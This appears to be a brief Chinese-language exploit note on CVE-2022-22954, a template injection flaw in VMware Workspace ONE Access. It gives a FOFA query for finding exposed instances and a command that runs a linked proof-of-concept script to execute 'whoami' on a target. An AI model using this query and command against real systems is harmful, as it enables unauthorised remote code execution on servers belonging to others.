 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954
## 资产收集
fofa：`app="vmware-Workspace-ONE-Access"`  
![](./img/login.png)
## POC
[使用POC脚本](./file/CVE-2022-22954.py)：
`python3 CVE-2022-22954.py -u https://{hostname}/ -c "whoami"`  
![](./img/whoami.png)